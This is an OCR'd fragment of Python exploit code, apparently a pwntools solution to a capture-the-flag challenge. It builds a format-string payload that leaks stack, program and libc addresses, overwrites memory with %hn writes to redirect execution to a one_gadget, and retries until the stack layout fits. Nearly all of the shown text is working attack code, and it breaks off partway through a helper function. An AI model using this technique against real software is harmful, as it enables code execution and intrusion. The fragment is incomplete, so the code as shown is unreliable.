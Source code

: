 ```python
    r = process("./S", env={"LD_PRELOAD": "./libc-2.28.so"})

    rbp1 = 15
    rbp2 = 41
    has_printed = 0

    fmt = "%c" # rsi
    has_printed += 1

    # leak stack
    fmt += "%p" # rdx
    has_printed += 14 # 0xFFFFFFFFFF

    fmt += "%c" # rcx
    has_printed += 1

    fmt += "%*c" # r8, r9
    has_printed += 1

    fmt += "%c"*6
    has_printed += 6

    # leak code
    fmt += "%p"
    has_printed += 14

    # leak libc
    fmt += "%p"
    has_printed += 14

    fmt += f"%{0xed38 - has_printed}c%hn" # 15$

    # 0x10DD == fgets()
    fmt += f"%{0xdd - 0x38}c%41$hhn" # 41$, use positional parameter

    r.send(fmt)
    r.recvuntil('0x')
    stack = int(r.recv(12), 16)
    info(f"stack: {hex(stack)}")

    r.recvuntil('0x')
    code = int(r.recv(12), 16) - 0x1200
    info(f"code: {hex(code)}")
    exit_got = code + 0x3380

    r.recvuntil('0x')
    libc = int(r.recv(12), 16) - 0x2409b
    # 0x50186, 0x501e3, 0x103f50, 0x50186, 0x501ef, 0xdf1ee, 0xdf1f1
    one = libc + 0xdf1f1
    info(f"libc: {hex(libc)}")
    info(f"one: {hex(one)}")

    if (stack & 0xffff) != 0xed40:
        info("[-] not lucky, try again")
        r.close()
        continue

    written = 0
    def next_payload(n, bits):
        global written
        written_mask = written & ((1 << bits) - 1)

        if written_mask < n:
```